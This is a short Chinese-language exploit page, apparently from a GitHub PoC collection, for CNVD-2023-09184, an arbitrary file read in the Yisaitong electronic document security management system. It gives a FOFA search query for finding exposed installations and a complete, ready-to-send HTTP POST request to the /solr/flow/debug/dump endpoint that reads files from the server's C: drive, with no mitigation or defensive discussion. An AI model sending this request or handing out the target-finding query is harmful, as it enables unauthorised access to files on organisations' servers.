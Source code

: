 ## 亿赛通电子文档安全管理系统任意文件读取CNVD-2023-09184

亿赛通 电子文档安全管理系统 dump接口存在任意文件读取漏洞


## fofa
```
app="亿赛通电子文档安全管理系统"
```

## poc
```
POST /solr/flow/debug/dump?param=ContentStreams HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Length: 36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1

stream.url=file:///C:\Program Files\
```

![ac6036a601c185421f1c8f0fa56f70ac](../../images/e1a2c88b-c5a6-4f85-8f26-94d303fc9868.png)
